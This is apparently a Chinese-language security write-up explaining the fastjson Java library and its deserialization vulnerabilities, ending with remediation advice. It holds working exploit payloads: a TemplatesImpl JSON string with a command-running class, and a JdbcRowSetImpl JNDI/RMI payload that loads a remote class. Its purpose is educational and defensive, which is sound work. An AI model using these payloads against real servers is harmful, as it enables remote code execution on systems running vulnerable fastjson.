 ## 0x00 json是什么
JSON (JavaScript Object Notation) 是一种轻量级的数据交换格式，易于人阅读和编写，同时也易于机器解析和生成。
JSON 构建基于两种结构:
- “名称 值”对的集合
- 值的有序列表
- 结构可以嵌套
- 示例
``` json
{"sites":[
    {"name":"Runoob", "url":"www.runoob.com"}, 
    {"name":"Google", "url":"www.google.com"},
    {"name":"Taobao", "url":"www.taobao.com"}
]}

```
## 0x01 fastjson 是什么
Fastjson是Alibaba开发的Java语言编写的高性能JSON库（https://github.com/alibaba/fastjson） 采用“假定有序快速匹配”的算法，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。Fastjson接口简单易用，广泛使用在缓存序列化、协议交互、Web输出、Android客户端等，目前有2个主要接口toJsonString和parseObject来分别实现序列化和反序列化。

### fastjson反序列化框架
![fastjson反序列化框架图](../pictures/fastjson_1.png)
- 在Fastjson反序列化框架中，JSON是门面类，提供一些静态方法，如：parse，parseObject，其主要功能都是在DefaultJSONParser类中实现的。
- DefaultJSONParser引用了ParserConfig类，该类主要保存一些相关配置信息。也引用了JSONLexerBase类用来处理字符分析，序列化用到的是JavaBeanSerializer类，而反序列化用到的是JavaBeanDeserializer类。

### fastjson 如何使用
首先定义一个User.java，代码如下：
``` java
public class User {
    private Long   id;
    private String name;
    public Long getId() {
        return id;
    }
    public void setId(Long id) {
        this.id = id;
    }
    public String getName() {
        return name;
    }
    public void setName(String name) {
        this.name = name;
    }
}
```
序列化的代码如下:
```java
import com.alibaba.fastjson.JSON;
User guestUser = new User();
guestUser.setId(2L);
guestUser.setName("guest");
String jsonString = JSON.toJSONString(guestUser);
System.out.println(jsonString);
```
反序列化的代码示例：
```java
String jsonString = "{\"name\":\"guest\",\"id\":12}";
User user = JSON.parseObject(jsonString, User.class);
```
## 0x02 反序列化可能有什么问题
parseObject()方法在处理过程中，会调用反序列化目标类的所有 setter、getter和is方法。如上User类的例子，其成员字段id和name都有各自get和set的操作，故这些函数都会在反序列化的过程中被调用，以便为类实例的字段赋值。
* 如果这些setter、getter函数（或者类的构造函数）中存在执行命令的操作，是不是就会造成命令执行漏洞？
* 或者系统某些库在实现反序列化时的某些函数（或一些继承的库重写了）存在问题，也可能造成反序列化漏洞。

### fastjson的反序列漏洞
#### fastjson 安全特性
- Feature.SupportNonPublicField 才能打开非公有属性的反序列化处理
- @type 可以指定反序列化任意类，调用其set/get/is方法
#### fastjson 反序列漏洞poc分析
即使打开了autotype配置，也不是所有库都能被利用触发反序列化，因为fastjson库实现checkAutoType 函数以检查需要进行反序列化的库是否在黑名单中，如果是则中断执行。
有研究人员发现通过TemplatesImpl类可以绕过检查且造成反序列化漏洞。poc 简化如下：
```java
final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ }," +
             "\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n"
Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
```

- TemplatesImpl可以绕过黑名单的检查
- 设置了Feature.SupportNonPublicField，这样`_outputProperties` 字段才会被反序列化，JavaBeanDeserializer.smartMatch()函数会替换掉字段key中的_，从而 _outputProperties和 getOutputProperties() 以成功关联上，即会执行getOutputProperties()函数
- getOutputProperties->newTransformer->getTransletInstance->defineTransletClasses;在defineTransletClasses方法中会根据_bytecodes来生成一个java类，生成的java类随后会被getTransletInstance方法用到生成一个实例
- 若`_bytecodes`是一个编译好的存在命令执行的类呢？如：将如下Test类编译成class，赋值给_bytecodes，在重新生成Test 实例的时候会执行类的构造函数，造成了命令执行。

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```
实际利用中，即向javaweb服务器(使用了fastjson进行反序列化操作）post 请求一个精心构造好的json串，如：
```json
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["base64encode(evilClassCode)"],'_name':'a.b','_tfactory':{ },"_outputProperties":{ },"_name":"a","_version":"1.0","allowedProtocols":"all"}

```
#### 其他fastjson反序列漏洞poc
如：使用JNDI注入的方式，简单的来说，就是RMI注册的服务可以让JNDI应用程序来访问调用。
> - RMI(Remote Method Invocation)：即Java 远程方法调用，一种用于实现远程过程调用的应用程序编程接口，常见的两种接口实现为 JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)以及 CORBA。
> - JNDI(Java Naming and Directory Interface)：一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口。JNDI 支持的服务主要有以下几种：DNS、LDAP、CORBA 对象服务、RMI 等。

PoC示例：
```json
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```
- JdbcRowSetImpl是官方自带的库，可以绕过黑名单检查
- 在反序列化过程中调用JdbcRowSetImpl类，在setAutoCommit()会调用connect()函数中会对成员变量dataSourceName进行lookup，成功利用JNDI注入，RMI可以reference到远程web路径的一个evil class obj，造成远程命令执行。

## 0x03 漏洞总结
* 反序列化漏洞存在于许多语言库的实现中，如：著名的2015年Apache Commons Collections 反序列化远程命令执行漏洞。
* JNDI与RMI结合是java类反序列化漏洞利用的常见手段
* Fastjson不启用autotype就没问题；
* 若开启 autotype，虽然Fastjson实现了一套黑名单防护机制，但仍存在被绕过风险

### 修复方案：
#### 方案一
升级fastjson，升级到最新版本1.2.67，关闭autotype https://github.com/alibaba/fastjson/releases/tag/1.2.67

#### 方案二
如非必需情况，强烈建议移除fastjson，如需使用json解析库，建议使用gson或jackson-databind等组件最新版本替换。

## 参考文档
* https://kingx.me/Details-in-FastJson-RCE.html
* https://github.com/alibaba/fastjson/wiki/security_update_20170315
* https://www.freebuf.com/column/216631.html
